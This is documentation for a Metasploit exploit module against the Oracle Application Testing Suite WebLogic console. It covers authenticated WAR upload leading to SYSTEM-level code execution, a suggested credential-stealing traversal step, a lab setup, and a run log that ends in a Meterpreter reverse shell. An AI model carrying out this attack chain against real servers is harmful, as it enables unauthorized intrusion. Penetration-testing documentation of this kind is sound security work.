 ## Vulnerable Application

Oracle Application Testing Suite (OATS) is a comprehensive, integrated testing solution for web applications, web services, packaged Oracle
applications, and Oracle databases. OATS is part of an application deployed in the WebLogic service on port 8088, which also includes these
tools: Administrator, OpenScript, Oracle Load Testing, and Oracle Test Manager.

In the administrator console, the deployement feature can be abused to upload an arbitrary WAR file, allowing remote code execution under the
context of SYSTEM. Authentication is required.

The following is the exact setup I used to test and analyze the vulnerability:

- Windows Server 2008 R2 x64 (other Windows systems are also supported)
  - .Net Framework 3.5 enabled (from add/remove features)
  - IE ESC (from Server Manager) disabled
  - 8GB of RAM (at least more than 4GB will be used to run OATS)
  - Duel-Core processor
- oats-win64-full-13.3.0.1.262.zip (x86 did not work for me)
- Jdk-7u21-windows-x64.exe
- OracleXE112_Win64.zip (Newer version 18c did not work well for me)
- Firefox (I had to install this because IE on Win2k8 is completely outdated)
- Adobe Flash installed (IE ESC needs to be disabled in order to install this)

For installation instructions, please refer to the Oracle Application Testing Suite Installation Guide.

### Notes

For Oracle Application Testing Suite (OATS), you may use the `auxiliary/gather/oats_downloadservlet_traversal` module to download the server's encrypted
credentials, decrypt them using a third-party tool, and then use this module to gain remote code execution.

## Scenarios

```
msf5 exploit(windows/http/oats_weblogic_console) > check
[*] 172.16.135.128:8088 - The target service is running, but could not be validated.
msf5 exploit(windows/http/oats_weblogic_console) > run

[*] Started reverse TCP handler on 172.16.135.1:4444 
[+] Logged in as oats:VeryPhat1337
[*] Ready for war. Codename "lawrence" at 6256 bytes
[*] FRSC value: 0x59c5c771ae7d83c8440d7c45d2610dca5a0aa304a9e89e4c
[*] Server replies: "The file lawrence.war has been uploaded successfully to C:\\OracleATS\\oats\\servers\\AdminServer\\upload"
[+] Operation "lawrence" is a go!
[*] Code 200 on "lawrence" request
[*] Sending stage (53866 bytes) to 172.16.135.128
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.128:49337) at 2019-05-18 18:07:27 -0500
[+] Successfully undeployed lawrence.war

meterpreter >
```
